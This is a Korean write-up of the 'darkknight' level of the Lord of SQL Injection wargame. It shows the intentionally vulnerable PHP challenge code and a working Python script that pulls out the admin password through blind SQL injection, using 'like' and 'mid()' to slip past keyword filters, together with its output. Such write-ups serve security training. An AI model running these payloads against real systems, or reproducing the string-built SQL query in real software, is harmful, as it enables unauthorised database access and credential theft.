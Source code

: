 # **darkknight**
## 1. 문제의도
Blind Injection을 아나요?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no]))
      exit("No Hack ~_~");

    if(preg_match('/\'/i', $_GET[pw]))
      exit("HeHe");

    if(preg_match('/\'|substr|ascii|=/i', $_GET[no]))
      exit("HeHe");

    $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id'])
      echo "<h2>Hello {$result[id]}</h2>";

    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("darkknight");

    highlight_file(__FILE__);
  ?>
```
----
### 1. preg_match()
information_schema 와 문제 테이블들에 대한 직접 접근을 막고 있다.  
또한 substr, ascii, = 와 '의 사용을 막고 있다  

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no]))
    exit("No Hack ~_~");

  if(preg_match('/\'/i', $_GET[pw]))
    exit("HeHe");

  if(preg_match('/\'|substr|ascii|=/i', $_GET[no]))
    exit("HeHe");
```

pw 그리고 no 에서 싱클쿼터를 막고 있지만 no에는 싱글쿼터가 없는 상황이기에 no를 통해 blind injection을 진행해보자.

### 2. query
```SQL
  select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}
```

접근 할 수 있는 부분 : pw, no GET parameter  

### 3. 통과 조건
```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw']))
    solve("darkknight");
```
우리는 pw를 직접 알 필요가 있다.

----
## 3. Solution
no 파라미터를 통한 블라인드 인젝션으로 admin 계정의 pw 를 알아보자!!

### My Answers :

이번 문제도 간단한 블라인드 SQLi 이다.

다음과 같은 python 코드를 작성하여 해결 하였다.

```python
#-*- coding: utf-8 -*-
import urllib2, urllib, string
from web import *

url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?&no={}"

# get length
inject_url = '0 or id like "admin" and length(pw) like {}'
for i in range(1, 100):
    req = getRequest(url,inject_url.format(i), show=False)
    page = getPage(req)
    if "Hello admin" in page:
        length = i
        break

print "Length :",length

# get password : brute forcing
password = ""
inject_url = '0 || id like "admin" and mid(pw,{},1) like "{}"'
for i in range(1,length+1):
    for c in string.digits + string.letters:
        req = getRequest(url, inject_url.format(i,c),show=False)
        page = getPage(req)
        if "Hello admin" in page:
            print i,"'th letter is",c
            password += c
            break

print "Password :",password

```

```
> python .\12_Darkknight.py
Length : 8
1 'th letter is 1
2 'th letter is c
3 'th letter is 6
4 'th letter is 2
5 'th letter is b
6 'th letter is a
7 'th letter is 6
8 'th letter is f
Password : 1c62ba6f
```

1c62ba6f 를 입력해서 클리어~~!!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
